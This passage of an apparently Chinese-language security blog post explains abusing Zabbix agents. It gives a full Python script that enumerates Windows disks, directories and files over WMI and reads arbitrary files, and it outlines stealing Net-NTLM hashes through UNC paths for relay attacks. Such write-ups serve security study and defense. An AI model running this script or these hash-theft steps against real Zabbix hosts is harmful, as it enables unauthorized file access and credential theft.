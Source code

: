 zabbix\_agentd 服务默认以低权限用户 zabbix 运行，读取文件受 zabbix 用户权限限制。开启 AllowRoot 参数情况下 zabbix\_agentd 服务会以 root 权限运行，利用 `vfs.file.contents` 命令就能任意文件读取。

如果文件超过 64KB 无法读取，在了解该文件字段格式的情况下可利用 `vfs.file.regexp` 命令正则获取关键内容。

### [](#34-windows-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86)3.4 Windows 目录遍历

Zabbix 原生监控项中，`wmi.get` 命令可以执行 WMI 查询并返回第一个对象，通过 WQL 语句可以查询许多机器信息。

如：WQL 查询盘符

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>zabbix_get -s agent -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk\"]"<br>``` |

利用 `wmi.get` 命令进行目录遍历、文件遍历，结合 `vfs.file.contents` 命令就能够在 Windows 下实现任意文件读取。

基于 zabbix\_get 命令写了个 python 脚本，实现 Windows 的列目录、读文件功能。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>``` | ```python<br>import os<br>import sys<br><br>count = 0<br><br>def zabbix_exec(ip, command):<br>    global count<br>    count = count + 1<br>    check = os.popen("./zabbix_get -s " + ip + " -k \"" + command + "\"").read()<br>    if "Cannot obtain WMI information" not in check:<br>        return check.strip()<br>    else:<br>        return False<br><br>def getpath(path):<br>    return path.replace("\\","\\\\\\\\").replace("$","\\$")<br><br>def GetDisk(ip):<br>    where = ""<br>    while(True):<br>        check_disk = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM Win32_LogicalDisk WHERE Name != '' " + where + "\\\"]")<br>        if check_disk:<br>            print(check_disk)<br>            where = where + "AND Name != '" + check_disk+ "'"<br>        else:<br>            break<br><br>def GetDirs(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_dir = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Caption FROM Win32_Directory WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_dir:<br>            print(check_dir)<br>            where = where + "AND Caption != '" + getpath(check_dir) + "'"<br>        else:<br>            break<br><br>def GetFiles(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_file = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM CIM_DataFile WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_file:<br>            if "Invalid item key format" in check_file:<br>                continue<br>            print(check_file)<br>            where = where + "AND Name != '" + getpath(check_file) + "'"<br>        else:<br>            break<br><br>def Readfile(ip, file):<br>    read = zabbix_exec(ip, "vfs.file.contents[" + file + "]")<br>    print(read)<br><br>if __name__ == "__main__":<br>    if len(sys.argv) == 2:<br>        GetDisk(sys.argv[1])<br>    elif sys.argv[2][-1] != "\\":<br>        Readfile(sys.argv[1], sys.argv[2])<br>    else:<br>        GetDirs(sys.argv[1],sys.argv[2])<br>        GetFiles(sys.argv[1],sys.argv[2])<br>    <br>    print("Request count: " + str(count))<br>``` |

### [](#35-windows-unc-%E8%B7%AF%E5%BE%84%E5%88%A9%E7%94%A8)3.5 Windows UNC 路径利用

在 Windows Zabbix Agent 环境中，可以利用 `vfs.file.contents` 命令读取 UNC 路径，窃取 Zabbix Agent 机器的 Net-NTLM hash，从而进一步 Net-NTLM relay 攻击。

Window Zabbix Agent 默认安装成 Windows 服务，运行在 SYSTEM 权限下。在工作组环境中，system 用户的 Net-NTLM hash 为空，所以工作组环境无法利用。

在域内环境中，SYSTEM 用户即机器用户，如果是 Net-NTLM v1 的情况下，可以利用 Responder 工具获取 Net-NTLM v1 hash 并通过算法缺陷解密拿到 NTLM hash，配合资源约束委派获取域内机器用户权限，从而拿下 Agent 机器权限。

也可以配合 CVE-2019-1040 漏洞，relay 到 ldap 上配置基于资源的约束委派进而拿下 Agent 机器权限。（此处直接结果直接引用，未做实验）

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645843.jpg-water_print](assets/1699408100-3e197426dd682fb0113c4d597f04bbfa.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645843.jpg-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645941.jpg-water_print](assets/1699408100-cc09defeee87b5fc7792a8593b487359.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645941.jpg-water_print")
